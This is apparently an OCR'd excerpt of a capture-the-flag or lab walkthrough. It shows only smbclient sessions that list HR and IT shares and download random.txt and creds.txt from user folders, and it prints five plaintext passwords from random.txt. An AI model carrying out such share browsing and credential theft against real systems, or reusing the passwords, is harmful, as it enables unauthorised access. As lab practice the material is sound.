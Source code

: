 ```bash
smb: \HR\> ls
  .                                   D        0  Thu Apr 21 16:04:39 2022
  ..                                  D        0  Thu Apr 21 16:04:39 2022
                                                                                                                                        7706623 blocks of size 4096. 3167735 blocks available
smb: \HR\> cd ../IT
smb: \IT\> ls
  .                                   D        0  Thu Apr 21 16:11:44 2022
  ..                                  D        0  Thu Apr 21 16:11:44 2022
  Fiona                               D        0  Thu Apr 21 16:11:53 2022
  John                                D        0  Thu Apr 21 17:15:09 2022
  Simon                               D        0  Thu Apr 21 17:16:07 2022
                                                                                                                                        7706623 blocks of size 4096. 3167735 blocks available
smb: \IT\>
```

```bash
smb: \IT\Simon\> ls
  .                                   D        0  Thu Apr 21 17:16:07 2022
  ..                                  D        0  Thu Apr 21 17:16:07 2022
  random.txt                          A       94  Thu Apr 21 17:16:48 2022
                                                                                                                                        7706623 blocks of size 4096. 3167735 blocks available
smb: \IT\Simon\> get random.txt
getting file \IT\Simon\random.txt of size 94 as random.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \IT\Simon\>
```

```bash
─$ cat random.txt
Credentials

(k20ASD10934kadA
KDIlalsa9020$
JT9ads02lasSA@
Kaksd032klasdA#
LKads9kasd0-@
```

```bash
smb: \IT\> cd Fiona
smb: \IT\Fiona\> ls
  .                                   D        0  Thu Apr 21 16:11:53 2022
  ..                                  D        0  Thu Apr 21 16:11:53 2022
  creds.txt                           A      118  Thu Apr 21 16:13:11 2022
                                                                                                                                        7706623 blocks of size 4096. 3167727 blocks available
smb: \IT\Fiona\> get creds.txt
getting file \IT\Fiona\creds.txt of size 118 as creds.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \IT\Fiona\>
```
